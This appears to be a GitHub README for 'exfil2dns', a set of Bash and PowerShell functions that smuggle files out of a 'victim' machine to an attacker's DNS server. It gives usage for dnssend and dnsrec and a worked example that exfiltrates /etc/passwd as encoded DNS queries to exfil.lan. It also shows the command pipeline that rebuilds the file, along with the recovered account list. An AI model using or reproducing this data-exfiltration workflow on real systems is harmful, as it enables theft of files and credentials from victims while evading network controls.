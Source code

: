 exfil2dns is stupid-simple bash/powershell functions that can be used to exfiltrate files to a DNS server.
There are many other DNS exfiltration tools that are much better, but I wrote this for something very simple that only used Bash and Powershell.

Bash functions are dnssend and dnsrec, and there is a dnssend function for Powershell.  Run dnsrec on your dns server and run dnssend on the victim system.

Usage on server: # dnsrec <filetorecieve> <domain>
Usage on victim: # dnssend <filetosend> <domain> [linenumber]
The line number is optional.  It retransmits a specific line in case the packet was dropped
The dnssend Powershell function double-wraps with base64, so you will need to add another "|base64 -d" when you restore the file.


Example on victim:
~ # dnssend /etc/passwd exfil.lan
line 1 / 12   H4sIAGZv81sAA21UTW+jMBC951dw3JUSGQJkU9+6WmkvbQ/t/gEHDFgFO7INJP3.1542680422.1.x.exfil.lan
line 2 / 12   1OzPOByloHDTP8+YxjMexxnh+4jGYRZeF50FpdhCuWZVCdkYDIwG7ANY7yxxQ7h.1542680422.2.x.exfil.lan
line 3 / 12   7TpjW10ivcPfEtGMWXSe7sgJSCocdKOSySdAGsjO/yPM04QXYVZQhXtegkKuV8F.1542680422.3.x.exfil.lan
line 4 / 12   /MASGfiPkh2Aovb8WTL0WWDsKwQRSMZwRm/PQL9Fxg4RHZHY1rWHstFcdUCfQ9G.1542680422.4.x.exfil.lan
line 5 / 12   LiUEb8bVcsS6n8DInYgHPMvo+wKLSWJcBCY5Ac9yxnHclMIL7HWK67ZBuYCWDlA.1542680422.5.x.exfil.lan
line 6 / 12   Unz2+CnoO6wIpIfhL1bXK4RSle1yv8M1K19ELbEavQota2iBAtHl2rYXHdmQJrr.1542680422.6.x.exfil.lan
line 7 / 12   +Iot99vXmXR2M9Sn2cnZdd9EOUndI/r2IHFjIX+msOpjzjWdPshOdlE0hanqASq.1542680422.7.x.exfil.lan
line 8 / 12   ZeKcfSqcuMVzFAYwSTGrtOwYij6ByEoSReNNVp9Ca+MXq/XcHd6HEwihSmtROvk.1542680422.8.x.exfil.lan
line 9 / 12   TVJLPxr7SYpwneLspvgWIpdudVDZdz2YC6+qJVUrnWkHSapb+OU31fcQsTOta8p.1542680422.9.x.exfil.lan
line 10 / 12   ETQyiUaQB1wPuxzPiqPvz9hGFW08i2HcUIvbm+ndwV9E+DOkeNDLOWWM6yXBzWr.1542680422.10.x.exfil.lan
line 11 / 12   cXvkQWvCUczP08deUeqK4h5jZ+YNKnYGh+elUoIH3iSR5zQNPqnR1Y9VjMfxW0n.1542680422.11.x.exfil.lan
line 12 / 12   S//BAAA.1542680422.12.x.exfil.lan
Flushing buffer.  You can ctrl-c on receiver when you see the ... dots on the receiver
done



Example on server:
~ # dnsrec /tmp/passwordfilefromvictim exfil.lan
+ means receiving data.  Wait for the dots, then ctrl-c.
Once complete, run: cat /tmp/passwordfilefromvictim |sort -t'.' -k3 -n |uniq |sed -e 's/\(.*\)\.[[:digit:]]*\.[[:digit:]]*.x.exfil.lan.*/\1/g' |base64 -d |gzip -d

++++++++++++++++++++++++...............^C

~ # cat /tmp/passwordfilefromvictim |sort -t'.' -k3 -n |uniq |sed -e 's/\(.*\)\.[[:digit:]]*\.[[:digit:]]*.x.exfil.lan.*/\1/g' |base64 -d |gzip -d |head
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin



